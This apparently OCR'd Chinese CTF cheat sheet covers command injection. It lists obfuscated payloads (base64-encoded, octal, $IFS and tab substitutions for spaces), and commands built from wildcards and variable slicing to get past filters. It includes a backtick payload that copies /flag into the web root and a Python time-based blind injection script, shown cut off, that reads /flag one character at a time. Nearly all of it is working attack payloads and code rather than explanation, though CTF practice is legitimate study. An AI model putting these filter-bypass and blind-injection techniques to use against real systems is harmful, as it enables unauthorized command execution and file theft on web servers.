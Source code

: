 ```bash
?url=127.0.0.1｜`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`

#先执行反引号内的东西
ls `cat /flag > /var/www/html/1.txt`

#或者使用 $() 和八进制
$()：这是一种命令替换的语法，它会执行括号内的命令，并将其结果返回给外部命令。
$(printf$IFS$9"\154\163")

#过滤空格
<
<>
%20(space)
%09(tab)
$IFS
$IFS$9
${IFS}
$IFS$1
%09
{cat,flag.php}
```

##### 命令拼接

```bash
`${PATH:~A}` `${PWD:~A}` `${IFS}` `????.???` -> `nl flag.php`
#${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}}??.???
#${PATH:~A}${PATH:${#TERM}:${SHLVL:~A}} ????.???

#/bin/base64 flag.php 这里其实${IFS}可以不用直接用空格，因为没禁
#<A 先让指令执行错误，然后 $? 取到的值就为1了
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM}${IFS}????.???
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???


#${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   t
#${PWD:${Z}:${#SHLVL}}    ====>   /
#/bin/cat flag.php

${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???

#/bin/rev flag.php
#${#?}或${##}=1   ${IFS}=3
#/???/r?? ????.???
${PWD::${#?}}???${PWD::${#?}}${PWD:${#IFS}:${#?}}?? ????.???
#linux执行下条命令，反转为原来的
#echo '}c5963f9f2c6d-761b-cd34-4aef-6e358ac7{wohsftc"=galf$'|rev
```

##### 无回显盲注脚本

```python
import requests
import time

s=requests.session()
flag=''
for z in range(1,50):
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#%|^&{}[]/-()+=,\\':
        starTime=time.time()
        url="http://127.0.0.1/?cmd=if [ `cut -c"+str(z)+"-"+str(z)+" /flag` != '"+i+"' ]; then echo 1 ; else sleep 3; fi"
        r=s.get(url)
        if((time.time()-starTime)>3):
            flag+=i
```